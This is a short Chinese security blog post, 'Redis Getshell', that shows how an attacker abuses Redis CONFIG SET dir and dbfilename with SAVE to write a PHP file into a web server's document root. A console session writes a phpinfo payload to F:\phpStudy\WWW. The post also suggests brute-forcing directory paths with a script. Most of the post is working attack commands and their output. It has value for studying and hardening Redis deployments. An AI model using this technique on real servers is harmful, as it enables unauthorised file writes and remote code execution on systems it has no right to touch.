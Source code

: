 ```yaml
---
title: "Redis Getshell"
date: 2018-03-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['redis']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


本质上是 redis RDB 方式指定保存数据库的路径.

<!--more-->

## 介绍

redis 配置里有 dir 和 dbfilename

dir 存储路径 dbfilename 存储文件名

```
127.0.0.1:6379> config get dir
1) "dir"
2) "F:\Redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

save 保存

## 利用

`config set dir 路径`

`config dbfilename 文件名`

`set web 内容`

`save`

```
127.0.0.1:6379> config set dir F:\phpStudy\WWW
OK
127.0.0.1:6379> config set dbfilename 'info.php'
OK
127.0.0.1:6379> set web '<?php phpinfo() ?>'
OK
```

另外 config set 不存在的 dir 会报错.

```
127.0.0.1:6379> config set dir F:\fakepath
(error) ERR Changing directory: No such file or directory
```

可以写脚本爆破路径